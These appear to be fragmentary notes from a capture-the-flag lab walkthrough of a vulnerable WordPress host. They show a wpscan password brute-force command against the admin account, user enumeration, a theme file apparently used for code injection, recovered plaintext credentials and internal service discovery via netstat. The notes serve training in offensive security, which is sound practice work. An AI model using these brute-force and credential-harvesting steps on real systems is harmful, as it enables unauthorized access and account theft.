 

http://10.10.169.252/blog
http://10.10.169.252/javascript
http://10.10.169.252/phpmyadmin
http://10.10.169.252/server-status
http://10.10.169.252/wordpress


change the etc/host file to include
<ip>   internal.blog 


wpscan --url http://10.10.169.252/blog --usernames admin --passwords /home/kali/SecLists/Passwords/xato-net-10-million-passwords-100000.txt --max-threads 50


└─$ wpscan --url http://10.10.169.252/blog -e vp,u            148 ⨯ 2 ⚙

http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php



$ cd opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123



aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:36045         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0    324 10.10.169.252:22        10.11.37.146:54394      ESTABLISHED on (0.37/0/0)
tcp        0      0 10.10.169.252:44640     10.11.37.146:54         ESTABLISHED off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 10.10.169.252:80        10.11.37.146:51106      ESTABLISHED keepalive (5431.85/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           off (0.00/0/0)
udp        0      0 10.10.169.252:68        0.0.0.0:*                           off (0.00/0/0)
raw6       0      0 :::58                   :::*                    7           off (0.00/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
